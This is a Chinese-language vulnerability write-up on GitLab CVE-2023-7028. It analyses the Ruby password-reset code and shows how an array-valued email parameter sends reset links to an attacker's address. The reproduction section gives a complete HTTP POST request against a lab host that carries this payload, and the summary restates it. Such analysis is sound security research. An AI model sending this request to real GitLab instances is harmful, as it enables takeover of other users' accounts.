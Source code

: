

# 奇安信攻防社区-GitLab任意用户密码重置漏洞代码级分析（CVE-2023-7028）

### GitLab任意用户密码重置漏洞代码级分析（CVE-2023-7028）

GitLab任意用户密码重置漏洞代码级分析（CVE-2023-7028）

# 写在前面

GitLab是一个开源的仓库管理系统，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。它类似于GitHub，能够浏览源代码，管理缺陷和注释。  
当gitlab启用邮箱登录时，攻击者如果掌握一个准确的邮箱账户的条件下，可以利用CVE-2023-7028漏洞重置该账户的密码。

# 代码分析

通过[补丁链接](https://gitlab.com/gitlab-org/gitlab/-/commit/44deb06e2c8e1c1b9424fc89dec4f60c8806711a)可以定位到邮箱重置密码的漏洞点：`app/models/concerns/recoverable_by_any_email.rb`

以下是关键代码：

**（重点代码已标记注释）**

```ruby
module RecoverableByAnyEmail
  extend ActiveSupport::Concern
  class_methods do
    # 这个方法重写了 Devise 的 send_reset_password_instructions 方法
    def send_reset_password_instructions(attributes = {})
      # 从传入的哈希中删除 :email 键并将其对应的值赋给 email 变量
      email = attributes.delete(:email)
      super unless email # 除非 email 变量为非 nil 或非 false，否则继续执行后续逻辑
      recoverable = by_email_with_errors(email)
      # 如果找到了用户，就向该用户发送密码重置指令
      recoverable.send_reset_password_instructions(to: email) if recoverable&.persisted?
      recoverable
    end

    private
    def by_email_with_errors(email)
      # 查找具有指定电子邮件地址且已确认的用户。如果找不到，则创建一个新的用户对象
      record = find_by_any_email(email, confirmed: true) || new
      # 如果新的用户对象还没有被保存到数据库，则在其上添加一个错误信息
      record.errors.add(:email, :invalid) unless record.persisted?
      record
    end
  end

  # 这个实例方法用于发送密码重置指令
  def send_reset_password_instructions(opts = {})
    token = set_reset_password_token
    send_reset_password_instructions_notification(token, opts)
    token
  end

  private
  def send_reset_password_instructions_notification(token, opts = {})
    send_devise_notification(:reset_password_instructions, token, opts)
  end
end
```

`attributes.delete(:email)` 将从 `attributes` 哈希中删除键为 `:email` 的键值对，并返回该键对应的值。然后，这个返回的值被赋值给变量 `email`。

举个例子，假设 `attributes` 哈希是这样的：

```ruby
attributes = {email: 'test@example.com'}
```

执行 `email = attributes.delete(:email)` 后，`email` 变量的值将会是 `'test@example.com'`

如果说我们传入的`attributes`如下：

```ruby
attributes = {"email" => ["admin@gmail.com", "attacker@gmail.com"]}
```

那么执行 `email = attributes.delete("email")` 将会返回一个数组

`["admin@gmail.com", "attacker@gmail.com"]`。这个数组将会被赋值给 `email` 变量。

然后执行`recoverable = by_email_with_errors(email)`，验证该邮箱是否存在对应的用户。

```ruby
def by_email_with_errors(email)
      # 查找具有指定电子邮件地址且已确认的用户。如果找不到，则创建一个新的用户对象
      record = find_by_any_email(email, confirmed: true) || new
      # 如果新的用户对象还没有被保存到数据库，则在其上添加一个错误信息
      record.errors.add(:email, :invalid) unless record.persisted?
      record
    end
```

然后执行`recoverable.send_reset_password_instructions(to: email) if recoverable&.persisted?`向email变量中的`所有邮箱`发送重置密码邮件。

# 漏洞复现

1.  网站首页如下图：

![image-20240116154129077](assets/1705890903-ce74419a33fd847ef17b8c9aa97755cc.png)

2.  点击忘记密码，进入密码重置页面，输入目标用户邮箱，然后抓包修改 **(红框部分是修改后的)**

```php
POST /users/password HTTP/1.1
Host: 172.23.80.161:3000
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: preferred_language=en; 16.7.0-hide-alert-modal=true; super_sidebar_collapsed=false; visitor_id=cead9e96-58e0-4537-93a9-1c201fe6a496; known_sign_in=OWpJMDR5eGNPVkFadi9YR3BFQUNjY3lNMk1od1BDTGtpZWU5RitKN0ozcENXVG13a3Q4M05SeWpDZU55bVkzaE9mNUFicy9iaEpGMC9YaWFqSW4xMllzMHFyNC9KRGZqaTA4RFhZcUxEWklPcm05UkwyK09hejg1SThPcjBOT3otLVJwRDNPdTVWelhuWmdpRmlrSXl3SUE9PQ%3D%3D--16245baa4982bcf678585093115d129b736babfc; _gitlab_session=3c585a48c6eb7abb73ddb73941173e34
Origin: http://172.23.80.161:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Referer: http://172.23.80.161:3000/users/password/new
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 139

authenticity_token=0t85NavC_Or-tRPBS8R4XX5I8N0z-3_D7j2624iIXer-MxdH5_wBKxxI6xLXse2MWDfgiaUC9LTF1W_mfA5mYQ&user%5Bemail%5D%5B%5D=admin@gmail.com&user%5Bemail%5D%5B%5D=evil@gmail.com
```

![image-20240116152920289](assets/1705890903-d1511fc445aa9501b6c60810fb7455a4.png)

![image-20240116153936713](assets/1705890903-31e879dbdb1083f4809c5ca679106fa9.png)

# 总结

-   在开启邮箱登陆和配置SMTP后，只需要知道目标账号的邮箱，即可重置密码。
-   在重置密码的页面抓包，修改`user[email]=admin@gmail.com`为`user[email][]=admin@gmail.com&user[email][]=evil@gmail.com`，传入数组类型的`user[email][]`，即可向攻击者邮箱也发送重置密码链接。
